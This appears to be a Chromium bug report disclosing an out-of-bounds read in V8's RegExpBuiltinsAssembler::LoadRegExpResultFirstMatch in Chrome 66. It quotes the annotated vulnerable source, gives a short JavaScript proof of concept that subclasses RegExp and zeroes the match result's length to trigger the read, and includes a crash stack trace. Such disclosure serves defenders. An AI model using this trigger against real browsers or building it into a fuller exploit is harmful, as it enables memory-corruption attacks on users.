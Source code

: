 <b>VULNERABILITY DETAILS</b>
In the function RegExpBuiltinsAssembler::LoadRegExpResultFirstMatch, if result_fixed_array has no element, LoadFixedArrayElement will access out of bound data.
TNode<Object> RegExpBuiltinsAssembler::LoadRegExpResultFirstMatch(
    SloppyTNode<Context> context, SloppyTNode<JSObject> maybe_array) {
  TVARIABLE(Object, var_result);

  Label exit(this), if_fast(this), if_slow(this, Label::kDeferred);

  BranchIfFastRegExpResult(context, maybe_array, &if_fast, &if_slow);
  BIND(&if_fast);
  {
    TNode<FixedArrayBase> result_fixed_array = LoadElements(maybe_array);----------------> a fast RegExpResult doesn't guantee the length of maybe_array is larger than 0;
    var_result = LoadFixedArrayElement(result_fixed_array, 0);---------------------------> oob access occurs here
    Goto(&exit);
  }
  BIND(&if_slow);
  {
    var_result =
        GetProperty(context, maybe_array, isolate()->factory()->zero_string());
    Goto(&exit);
  }
  BIND(&exit);
  return var_result.value();
}

<b>VERSION</b>
Chrome Version: [66.0.3359.170] + [stable]
Operating System: [all]

<b>REPRODUCTION CASE</b>
run the following poc in chrome 66.0.3359.170 and you'll see crash
<script>
class MyRegExp extends RegExp {
  exec(str) {
    const r = super.exec.call(this, str);
    if (r) r.length=0;
    return r;
  }
}
const result = 'a'.match(new MyRegExp('.', 'g'));
var crash = result[0].x;
</script>

The crash is as the follows because result[0] in the poc contains OOB data and is not an object.
#0  v8::base::OS::Abort () at ../../src/base/platform/platform-posix.cc:381
#1  0xf727f7e0 in v8::internal::Isolate::PushStackTraceAndDie (this=0x56604bb8, ptr1=0x3ab04235, ptr2=0x0, ptr3=0x0, ptr4=0x0) at ../../src/isolate.cc:367
#2  0xf72e2519 in v8::internal::LookupIterator::GetRootForNonJSReceiver (isolate=0x56604bb8, receiver=..., index=4294967295) at ../../src/lookup.cc:226
#3  0xf64fdd6f in v8::internal::LookupIterator::GetRoot (isolate=0x56604bb8, receiver=..., index=4294967295) at ../../src/lookup.h:368
#4  0xf64fe0eb in v8::internal::LookupIterator::LookupIterator (this=0xffffb390, isolate=0x56604bb8, receiver=..., name=..., 
    configuration=v8::internal::LookupIterator::PROTOTYPE_CHAIN) at ../../src/lookup.h:53
#5  0xf64fdca8 in v8::internal::LookupIterator::LookupIterator (this=0xffffb390, receiver=..., name=..., configuration=v8::internal::LookupIterator::PROTOTYPE_CHAIN)
    at ../../src/lookup.h:49
#6  0xf719b741 in v8::internal::LoadIC::Load (this=0xffffb648, object=..., name=...) at ../../src/ic/ic.cc:452
#7  0xf71aecf9 in v8::internal::__RT_impl_Runtime_LoadIC_Miss (args=..., isolate=0x56604bb8) at ../../src/ic/ic.cc:2150
#8  0xf71ae778 in v8::internal::Runtime_LoadIC_Miss (args_length=4, args_object=0xffffb7a0, isolate=0x56604bb8) at ../../src/ic/ic.cc:2134
#9  0x445062ca in ?? ()
#10 0x4a988e5f in ?? ()
#11 0x44515e14 in ?? ()
#12 0x4450e77d in ?? ()
#13 0x44512cbc in ?? ()
#14 0x4450c3d1 in ?? ()
#15 0xf6fb4236 in v8::internal::GeneratedCode<v8::internal::Object*, v8::internal::Object*, v8::internal::Object*, v8::internal::Object*, int, v8::internal::Object***>::Call (
    this=0xffffba18, args=0xffffbe38, args=0xffffbe38, args=0xffffbe38, args=0xffffbe38, args=0xffffbe38) at ../../src/simulator.h:110
#16 0xf6fb1c2a in v8::internal::(anonymous namespace)::Invoke (isolate=0x56604bb8, is_construct=false, target=..., receiver=..., argc=1, args=0xffffbe38, new_target=..., 
    message_handling=v8::internal::Execution::kReport, execution_target=v8::internal::Execution::kCallable) at ../../src/execution.cc:155
#17 0xf6fb10d0 in v8::internal::(anonymous namespace)::CallInternal (isolate=0x56604bb8, callable=..., receiver=..., argc=1, argv=0xffffbe38, 
    message_handling=v8::internal::Execution::kReport, target=v8::internal::Execution::kCallable) at ../../src/execution.cc:191
#18 0xf6fb0ec7 in v8::internal::Execution::Call (isolate=0x56604bb8, callable=..., receiver=..., argc=1, argv=0xffffbe38) at ../../src/execution.cc:202
#19 0xf652f42d in v8::Function::Call (this=0x566851cc, context=..., recv=..., argc=1, argv=0xffffbe38) at ../../src/api.cc:5105
#20 0x565815e8 in v8::Shell::Stringify (isolate=0x56604bb8, value=...) at ../../src/d8.cc:1711
#21 0x56580458 in v8::Shell::ExecuteString (isolate=0x56604bb8, source=..., name=..., print_result=v8::Shell::kPrintResult, report_exceptions=v8::Shell::kReportExceptions, 
    process_message_queue=v8::Shell::kProcessMessageQueue) at ../../src/d8.cc:673
#22 0x5659590a in v8::Shell::RunShell (isolate=0x56604bb8) at ../../src/d8.cc:2273
#23 0x5659cc2c in v8::Shell::Main (argc=4, argv=0xffffcad4) at ../../src/d8.cc:3436
#24 0x5659d192 in main (argc=4, argv=0xffffcad4) at ../../src/d8.cc:3465
